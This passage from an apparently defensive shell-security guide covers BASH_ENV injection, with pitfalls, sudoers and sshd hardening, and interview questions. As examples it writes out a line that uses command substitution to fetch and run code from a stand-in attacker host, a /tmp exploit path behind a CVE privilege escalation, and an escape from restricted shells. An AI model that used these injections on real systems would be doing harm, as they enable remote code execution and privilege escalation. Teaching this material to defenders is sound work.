> Fix: Never use wildcards in `AcceptEnv`; restrict accepted variables strictly to `LANG` and `LC_*`.
> Keep `PermitUserEnvironment no` (the default); it alone governs whether `environment="..."` options and `~/.ssh/environment` are honored (sshd(8), AUTHORIZED_KEYS FILE FORMAT).
> In `authorized_keys`, also prepend the `restrict` keyword (`restrict,command="/path/to/cmd"`), which disables port, agent, and X11 forwarding, PTY allocation, and `~/.ssh/rc`; it does not disable `environment=` options, so it is a complement to `PermitUserEnvironment no`, not a replacement.

> [!warning] Pitfall 4: Relative Path CWD Hijacking
> Trigger: A developer sets `export BASH_ENV="setup.sh"` in an environment configuration, intending to load a project configuration.
> Symptom: Bash does not search `PATH` when expanding `BASH_ENV`.
> It calls `open("setup.sh", O_RDONLY)`.
> Whenever an automated script or tool executes `cd /tmp` or enters an untrusted directory containing a malicious `setup.sh`, bash sources and executes that untrusted file.
> Fix: Always assign absolute canonical paths to environment initialization variables (`export BASH_ENV="/opt/company/etc/setup.sh"`), or avoid exporting `BASH_ENV` entirely.

> [!warning] Pitfall 5: Ghost Command Execution on Missing Files
> Trigger: An administrator or auditing script inspects an environment containing `BASH_ENV='$(curl -s http://attacker.com/pwn | sh)/dev/null'`.
> Symptom: The auditor concludes that because `/dev/null` or the resulting filename is harmless or does not exist on disk, no code was executed.
> In reality, bash's `expand_string_unsplit_to_string()` executes the embedded command substitution before attempting to open the path, executing the payload in memory while leaving no script file on the filesystem.
> Fix: Treat the contents of `BASH_ENV` and `ENV` as executable code, not path strings.
> Sanitize and validate variable values with strict alphanumeric regex patterns before passing them to subprocesses.

> [!warning] Pitfall 6: Stdout Pollution in Automated Pipelines and Makefiles
> Trigger: A container base image or developer workstation configures `ENV BASH_ENV=/etc/profile` in a Dockerfile or shell profile to ensure variables are available.
> Symptom: Non-interactive scripts that generate machine-parseable output (such as JSON or CSV) break with syntax errors.
> Subshells invoked by `make` recipes, command substitutions (`output=$(command)`), and pipeline tools capture banner messages or echo output emitted by `/etc/profile`.
> Fix: Never set `BASH_ENV` to a profile file intended for interactive login shells.
> In Dockerfiles, set explicit variables using `ENV KEY=VALUE` directives rather than forcing global profile execution across all non-interactive subshells.

## Security and robustness

Environment variables represent an implicit, ambient communication channel between parent and child processes.
In Unix security engineering, ambient authority across trust boundaries is the primary cause of injection vulnerabilities.
When designing secure systems, apply the following defense-in-depth principles:

### 1. Enforce hermetic process execution with env -i

Whenever a service, daemon, or script invokes a subprocess that transitions across a trust boundary (such as running a build tool, executing a container process, or invoking a hook), never inherit the ambient environment.
Execute the process under `env -i` with an explicit, statically declared allowlist:

```sh
# Insecure: ambient environment propagation
subprocess_run(["bash", "build.sh"])

# Secure: hermetic execution with scrubbed environment
env -i \
  PATH="/usr/bin:/bin" \
  HOME="/var/empty" \
  USER="nobody" \
  /bin/bash --noprofile --norc build.sh
```

### 2. Invoke shells with explicit suppression flags

If a wrapper script or application must invoke bash to parse an expression, always supply flags that disable startup configuration files:
- Supply `--noprofile` and `--norc` to eliminate user login and interactive files.
- Supply `--posix` to force POSIX mode, which automatically ignores `BASH_ENV`.
- Supply `-p` (privileged mode) when running in setuid or elevated contexts; `-p` suppresses both `BASH_ENV` and `ENV`, but in a set-user-ID process it also stops bash from dropping to the real UID, so use it only where keeping the elevated IDs is intended.

```sh
# Hardened non-interactive bash invocation
/bin/bash --noprofile --norc --posix -c 'exec "$@"' _ "$command" "$arg1"
```

### 3. Immediate script self-defense

A secure shell script should neutralize ambient initialization variables in its opening preamble before spawning child processes or subshells:

```sh
#!/bin/sh
# Neutralize ambient environment injection vectors
unset -v BASH_ENV ENV CDPATH IFS
PATH="$(getconf PATH 2>/dev/null || printf '/usr/bin:/bin')"
export PATH
```

Unsetting `BASH_ENV` and `ENV` removes them from the shell's internal symbol table and prevents subsequent child bash invocations from inheriting malicious startup hooks.

### 4. Hardening Sudoers and SSH configurations

System administrators must enforce strict environment scrubbing policies:
- In `/etc/sudoers`, verify that `Defaults env_reset` is active.
`env_reset` runs the command in a minimal environment containing the `TERM`, `PATH`, `HOME`, `MAIL`, `SHELL`, `LOGNAME`, `USER`, and `SUDO_*` variables, plus whatever matches `env_keep` and `env_check` (sudoers(5), `env_reset`).
Never configure `Defaults !env_reset` or add `BASH_ENV` to `Defaults env_keep`.
- In `/etc/ssh/sshd_config`, audit `AcceptEnv`.
Ensure `AcceptEnv` permits only locale formatting variables:

```text
AcceptEnv LANG LC_CTYPE LC_NUMERIC LC_TIME LC_COLLATE LC_MONETARY LC_MESSAGES
AcceptEnv LC_PAPER LC_NAME LC_ADDRESS LC_TELEPHONE LC_MEASUREMENT
AcceptEnv LC_IDENTIFICATION LC_ALL LANGUAGE
```

Ensure `PermitUserEnvironment no` is set to prevent `~/.ssh/environment` from poisoning ssh sessions.

## The principal's view

To a principal engineer, `BASH_ENV` is an architectural liability masquerading as a convenience.
It creates hidden coupling across the system: an environment variable set in a parent process alters the initialization, command parsing, and exit semantics of every child bash script without the child script's explicit consent.
This violates the fundamental Unix principle of composition: software components should behave predictably based on their explicit inputs, not ambient global state.

The engineering decision at staff-plus level is straightforward:
1. Ban `BASH_ENV` in production container images and deployment manifests.
Any Dockerfile that contains `ENV BASH_ENV=/etc/profile` must fail linting.
Containerized tasks must configure environment variables explicitly via container specifications, Kubernetes Pod environments, or systemd unit definitions.
2. Ban `BASH_ENV` as a mechanism for library injection.
If scripts in a codebase require shared helper libraries, they must import those libraries explicitly using canonical source directives (`. "${PROJECT_ROOT}/lib/helpers.sh"`).
Explicit imports can be traced by static analysis tools, code search engines, and dependency analyzers; implicit `BASH_ENV` imports cannot.
3. Migrate security-critical execution wrappers away from shell interpreters.
Whenever a software system must execute commands across a security boundary (e.g., privileged helpers, container runtime shims, CI/CD runners), avoid invoking shell interpreters (`sh -c` or `bash -c`).
Use direct kernel execution via `execve(2)` in a language with strong memory safety and explicit process isolation (such as Go or Rust).
Passing argument arrays directly to `execve(2)` with a sanitized `envp` eliminates the entire taxonomy of shell injection vulnerabilities, including `BASH_ENV`, `ENV`, `IFS`, and command injection.

## Interview questions

> [!question] L5: Explain the functional difference between `BASH_ENV` and `ENV`, and identify which shells evaluate which variable under what circumstances.
>
> > [!success]- Answer
> > `BASH_ENV` is a GNU bash extension evaluated only by non-interactive bash shells when running outside POSIX mode, outside `sh` compatibility mode, and outside privileged mode `-p`.
> > `ENV` is standardized by POSIX.1-2024 for interactive shells and is evaluated only when the shell is interactive (`-i`).
> > POSIX-conforming shells like dash, mksh, ksh93, BusyBox ash, and bash in POSIX mode source `ENV` only when interactive and completely ignore `BASH_ENV`.
> > Native zsh ignores both variables in its standard configuration, relying instead on `/etc/zshenv` and `~/.zshenv`.
> >
> > Follow-up: What happens if `BASH_ENV` is set when running `bash --posix script.sh`?

> [!question] L5: Predict the output: what does the following script print, and what is its exit code?
> ```sh
> export BASH_ENV='$(echo INJECTED >&2)/nonexistent'
> bash -c 'echo RUNNING'
> ```
>
> > [!success]- Answer
> > The output printed to standard error is `INJECTED`, followed by standard output printing `RUNNING`, and the exit code is 0.
> > Before opening the file named by `BASH_ENV`, bash evaluates command substitutions inside the variable string, causing `echo INJECTED >&2` to execute immediately.
> > The resulting expanded pathname `/nonexistent` does not exist on disk, but bash's `maybe_execute_file()` uses `FEVAL_ENOENTOK`, which silently ignores missing files.
> > The shell then proceeds to parse and execute the `-c` command string `echo RUNNING`, exiting with success status 0.
> >
> > Follow-up: What would change if `bash` were replaced with `/bin/sh` on a modern Debian system?

> [!question] L6: Debug this script: an automation team reports that their deployment script fails intermittently with "JSON decode error" when parsing outputs from subshells:
> ```sh
> #!/bin/bash
> export BASH_ENV="/etc/profile.d/corp_env.sh"
> get_version() {
>   local raw_json
>   raw_json=$(bash -c 'generate_json_manifest')
>   jq .version <<< "$raw_json"
> }
> ```
>
> > [!success]- Answer
> > The script exports `BASH_ENV` pointing to a global profile script that likely outputs welcome messages, status text, or terminal escape codes.
> > When `bash -c 'generate_json_manifest'` runs inside the command substitution, it starts as a non-interactive bash process, sources `BASH_ENV`, and inherits standard output.
> > The text emitted by `/etc/profile.d/corp_env.sh` is prepended to the JSON output generated by `generate_json_manifest`, corrupting the data stream fed to `jq`.
> > To fix it, remove `export BASH_ENV` and instead explicitly source required corporate variables inside `generate_json_manifest` or configure them via static environment variables.
> >
> > Follow-up: Why did command substitution capture the startup output, while running `generate_json_manifest` directly in a terminal displayed valid JSON?

> [!question] L6: How does GNU bash handle the `set -e` (`errexit`) option during startup file execution, and why was it implemented that way?
>
> > [!success]- Answer
> > In `main()` in `shell.c`, bash explicitly saves the current value of `exit_immediately_on_error` and forces it to 0 before calling `run_startup_files()`.
> > If any command executed within `BASH_ENV` or `ENV` exits with a non-zero exit status, the shell does not abort execution.
> > This behavior was implemented so that non-critical environment probes or failing initialization tests in startup files do not inadvertently crash the shell.
> > Once `run_startup_files()` completes, the original `errexit` setting is restored before executing the main script body or interactive commands.
> >
> > Follow-up: If a command inside `BASH_ENV` runs `set -e`, does that option persist into the main script?

> [!question] L6: How do positional parameters (`$@`, `$*`) and `$0` behave inside `BASH_ENV` across different versions of GNU bash?
>
> > [!success]- Answer
> > In GNU bash 5.0 and later, positional parameters are initialized before startup files run, and `$0` is temporarily set to the name of the script being invoked.
> > This allows `BASH_ENV` scripts to inspect `$0`, `$#`, and `$1` to customize initialization based on the invoking script.
> > In GNU bash 4.4 and bash 3.2 (such as default macOS `/bin/bash`), startup files run before argument binding: `$0` is the path to the bash binary and `$#` is 0.
> > Once startup files finish, bash restores the permanent `$0` binding for script execution.
> >
> > Follow-up: How can a cross-platform script author detect whether `$0` is reliably bound inside a startup file?

> [!question] L7: Explain how a restricted shell (`rbash` or `bash -r`) interacts with `BASH_ENV`, and detail the exact attack vector an inherited `BASH_ENV` creates.
>
> > [!success]- Answer
> > In `main()` in `shell.c`, bash calls `run_startup_files()` before invoking `maybe_make_restricted()`.
> > Because restricted shell flags are not enabled until after startup files complete, commands running inside `BASH_ENV` execute without restrictions.
> > A payload inside `BASH_ENV` can execute binaries containing slashes like `/bin/sh`, redirect file descriptors, change directories, or alter `PATH`.
> > If an administrator restricts an untrusted user to `rbash` via SSH or a wrapper but permits `BASH_ENV` inheritance, the user can achieve unrestricted execution before restrictions clamp down.
> > Once startup completes, `maybe_make_restricted()` locks down `BASH_ENV`, `ENV`, `PATH`, and `SHELL` as read-only variables.
> >
> > Follow-up: How does OpenSSH's `restrict` keyword in `authorized_keys` mitigate this attack vector?

> [!question] L7: Describe the vulnerability mechanism of CVE-2024-6240 in Parallels Desktop, detailing the role of `BASH_ENV` and the missing defensive primitives.
>
> > [!success]- Answer
> > The CVE record states only that in Parallels Desktop before 19.3.0 an attacker could "populate the BASH_ENV environment variable with the path to the malicious script, executing on application startup" and so escalate privileges; the component and the fix are not described there.
> > The generic mechanism is a privileged process that runs `/bin/bash` without scrubbing inherited environment variables and without supplying the `-p` (privileged mode) flag.
> > A local unprivileged attacker sets `export BASH_ENV=/tmp/exploit.sh` in their environment and triggers that execution.
> > If the process's real and effective UIDs are both root (a root daemon, or a helper that called `setuid(0)`), bash does not take its `running_setuid` path, so it expands `BASH_ENV` and executes `/tmp/exploit.sh` in root's security context before running the helper script; a bash whose real UID is unprivileged would skip startup files and drop privileges instead.
> > The general remediations are to pass `-p` when invoking bash or to execute helpers via `execve(2)` with an empty or allowlisted environment.
> >
> > Follow-up: Why does the `-p` flag prevent this attack even if `BASH_ENV` remains in the process environment array?

> [!question] L7: Why does POSIX explicitly specify that relative pathnames in `ENV` yield unspecified results, and what filesystem vulnerability does this prevent?
>
> > [!success]- Answer
> > POSIX mandates that if the expanded value of `ENV` is not an absolute pathname, the results are unspecified because shells do not search `PATH` for startup files.
> > When a shell receives a relative path like `BASH_ENV=init.sh`, it issues `open("init.sh", O_RDONLY)`, resolving the path relative to the process's current working directory.
> > If an automated script traverses into a shared or untrusted directory such as `/tmp` or a cloned repository containing a malicious `init.sh`, the shell executes the attacker's script.
> >
> > Follow-up: How do modern hardened shells like OpenBSD ksh handle non-absolute paths in `ENV`?

## Related

Prerequisites: [[IFS-Attacks]]

Next: [[Shellshock]]

See also: [[Shell-Threat-Model]], [[Command-Injection]], [[eval-and-sh-c]], [[Argument-Injection-and-Double-Dash]], [[Hostile-Filenames]], [[PATH-Hijacking]], [[Temporary-File-Attacks]], [[sudo-and-sudoers]], [[Dropping-Privileges]], [[Secrets-in-argv-env-and-History]], [[Restricted-Shells]], [[Sandboxing-Scripts]]

## Further reading

- [POSIX.1-2024 Shell Command Language](https://pubs.opengroup.org/onlinepubs/9799919799/utilities/V3_chap02.html): Official IEEE Std 1003.1-2024 specification defining shell command execution, parameter expansion, and standard startup constraints.
- [POSIX.1-2024 sh Utility Specification](https://pubs.opengroup.org/onlinepubs/9799919799/utilities/sh.html): Normative reference defining the `ENV` environment variable, interactive startup requirements, and rationale for omitting non-interactive startup files.
- [GNU Bash Reference Manual - Invocation](https://www.gnu.org/software/bash/manual/bash.html#Invoking-Bash): Maintainer documentation detailing startup file precedence across interactive, login, non-interactive, and POSIX modes.
- [GNU Bash Source Code Repository](https://git.savannah.gnu.org/cgit/bash.git): Authoritative C source code for `shell.c`, `subst.c`, and `evalfile.c`, revealing internal expansion passes and startup hooks.
- [NVD CVE-2024-6240 Record](https://nvd.nist.gov/vuln/detail/CVE-2024-6240): Vulnerability analysis of the Parallels Desktop local privilege escalation caused by unscrubbed `BASH_ENV` inheritance.
- [NVD CVE-2014-6271 Record](https://nvd.nist.gov/vuln/detail/CVE-2014-6271): Historical vulnerability record for Shellshock, illustrating how unvalidated environment variable parsing leads to arbitrary code execution upon shell initialization.
- [OpenSSH sshd_config Documentation](https://man.openbsd.org/sshd_config): Server manual documenting `AcceptEnv` and `PermitUserEnvironment` constraints required to prevent remote environment injection.
- [Sudoers Manual - env_reset and env_delete](https://www.sudo.ws/docs/man/sudoers.man/): Reference manual explaining environment sanitization algorithms, blacklists, and security policies for privileged execution.
